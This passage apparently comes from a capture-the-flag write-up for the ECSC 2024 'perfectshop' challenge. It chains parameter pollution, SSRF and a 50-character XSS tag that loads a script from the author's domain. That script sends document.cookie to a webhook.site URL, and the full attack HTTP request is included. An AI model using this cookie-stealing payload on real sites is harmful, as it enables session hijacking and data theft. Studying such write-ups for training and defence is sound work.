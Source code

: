 It was a success! I discovered a [zero-day vulnerability](https://en.wikipedia.org/wiki/Zero-day_(computing)) in a JavaScript library, which was an exciting and extraordinary finding.

Now, let's put this discovery into action: we aim to enable the headless server to access a website with the document.cookie added to the URL as a parameter. To achieve this, we can utilize [Webhook](https://webhook.site), a platform that allows us to generate a unique URL which will provide us with information about the request that accessed it. 

However, there is a limitation we need to consider: our XSS payload cannot exceed 50 characters, as anything longer will be discarded. To handle this, I decided to host a JavaScript script on my short domain, `herlove.fun`. 
Subsequently, I embarked on a search for compact XSS solutions. After thorough exploration, I stumbled upon an [excellent article](https://medium.com/taptuit/minifying-xss-f17d7dc241cf) that discussed minifying XSS techniques. In this article, the author presented a snippet of XSS code.

```html
<script src=//a.io>
```

The article explained that the inclusion of JavaScript code from external sources can be achieved by adding `src` to the `script` tag. Furthermore, he pointed out that there is no need to include the `http:` or `https:` prefixes, as the browser will automatically use the protocol of the web server, which is included at the start of the domain. So I created a file named `a.js` on a machine hosted on my domain, containing the specified content.

```javascript
window.location="https://webhook.site/8bb7d716-2b5e-43e4-a93a-9858c832ce0b?x=".concat(document.cookie)
```

This script navigates to the Webhook site and appends all cookies to the URL as parameters.

All preparations have been completed, the only remaining task is to hand in the report. To execute my final payload, I employed this HTTP request that merges Parameter Pollution, SSRF, and XSS to launch a potent attack.

```http
POST /report?=/admin HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://perfectshop.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close



id=4&id=/../../search?q=<script src=//herlove.fun/a.js>/admin&message=
```
